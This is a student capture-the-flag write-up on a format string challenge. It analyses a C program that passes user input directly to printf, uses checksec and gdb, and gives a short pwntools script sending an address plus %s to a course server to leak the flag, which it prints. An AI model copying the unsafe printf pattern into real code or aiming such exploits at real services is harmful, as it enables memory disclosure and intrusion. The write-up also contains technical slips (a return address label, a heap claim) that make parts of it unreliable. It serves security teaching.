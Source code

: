 # Format Strings

##First Flag

###File Analysis

As good practice, we start off by investigating what we're being given. Therefore we be analysing what's inside "_main.c_":

Looking inside the code we can see that it:

-Creates an array "_flag_" accessibable throughout the file whose size is given with _FLAG_BUFFER_SIZE_, which is 40.

```C
#define FLAG_BUFFER_SIZE 40 

char flag[FLAG_BUFFER_SIZE]; // file size is 40!
```

- Stores the _flag.txt_ content inside of the flag array.

```C
FILE *fd = fopen("flag.txt","r");

if(fd != NULL) {
    fgets(flag, FLAG_BUFFER_SIZE, fd);
}```

-Reads 32 bytes of _user input_, stores inside of the character array _buffer_ and then prints it.

```C

        char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);
```
-An _if_ statement that executes different messages in case we achieved in getting the flag or not.

```C
if(0) {
    printf("I like what you got!\n%s\n", flag);
} else {
    printf("\nDisqualified!\n");
}
```
###Execution Analysis

We will now be analysing how _main.c_ behaviour works on _program_ (which is _main.c_ compilled) with the command:

```bash
checksec --file=program
```
![Alt text](./images/ctf7-1.png)

We can see here that here that the binaries aren't randomize(is not a _PIE_, Position-Independent Executable), but there are canaries, which prevents buffer overflow attacks as they will be detected

Using that knowlegde, we can assume that we are going to use a _format string attack_ as we have a _printf_ that prints an input stored in a 32 byte buffer. 

When we run the program, whenever the function _load___flag_ it will put the flag into the the buffer which, as a global variable, will be stored in the heap. Using _dbg_ we can find out the memory address where the function return address. We will run in the console 
```Bash
gdb program
p load_flag # ```

![Alt text](./images/ctf7-2.png)

So we now know that the return address is **_0x8049256_**.

We will now prepare the payload by making some changes to the given __exploit_example.py__.

```python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

address = 0x804c060 # the address of "flag"
payload = address.to_bytes(4, byteorder='little') + b"%s" //transforms it into a string format

p.recvuntil(b"got:")
p.sendline(payload)
p.interactive()```

![Alt text](./images/ctf7-3.png)

Thus, the flag we get is **flag{a36ac6c2b6ecee59b102cf406c2e354d}**!


